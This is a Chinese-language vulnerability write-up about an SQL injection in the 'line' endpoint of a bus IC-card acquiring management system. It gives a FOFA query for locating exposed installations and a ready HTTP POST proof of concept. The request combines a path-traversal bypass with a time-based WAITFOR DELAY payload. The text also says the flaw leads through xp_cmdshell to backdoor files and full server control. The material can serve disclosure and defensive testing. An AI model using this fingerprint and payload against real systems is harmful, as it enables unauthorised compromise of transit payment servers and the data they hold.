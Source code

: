 # 公交IC卡收单管理系统line存在SQL注入漏洞

# 一、漏洞简介
公交IC卡收单管理系统是城市公共交通领域中不可或缺的一部分，它通过集成先进的集成电路技术（IC卡）实现了乘客便捷的支付方式，并有效提高了公共交通运营效率。系统集成了发卡、充值、消费、数据采集、查询和注销等多个功能模块，为公交公司和乘客提供了全面、高效、便捷的公共交通支付解决方案。该系统不仅提升了乘客的出行体验，还降低了公交公司的运营成本，提高了管理效率。公交IC卡收单管理系统line存在SQL注入漏洞。经过身份验证的攻击者通过漏洞执行任意SQL语句，调用xp_cmdshell写入后门文件，执行任意代码，从而获取到服务器权限。

# 二、影响版本
+ 公交IC卡收单管理系统

# 三、资产测绘
+ fofa`app="公交IC卡收单管理系统"`
+ 特征

![1727274040056-105b772f-bf3b-4e57-bb11-3f4c308b04c5.png](./img/27itoy_d4ROVZs5J/1727274040056-105b772f-bf3b-4e57-bb11-3f4c308b04c5-833989.png)

# 四、漏洞复现
```java
POST /assets/..;/line HTTP/1.1
Host: 
Cookie: JSESSIONID=BE20D06711487C9D6D5325C1129F244C
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Priority: u=0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
 
_search=false&nd=1727248712232&rowCountPerPage=10&pageNo=1&sidx=LINE_CODE&sord=asc&method=select&ORGANIZATION_CODE=&LINE_CODE=1');WAITFOR DELAY '0:0:5'--
```

![1727274356642-8fe0f2b0-4e2e-4779-b3c6-a2f3949306fe.png](./img/27itoy_d4ROVZs5J/1727274356642-8fe0f2b0-4e2e-4779-b3c6-a2f3949306fe-268894.png)



> 更新: 2024-10-22 09:36:09  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gg6lz5os1welciza>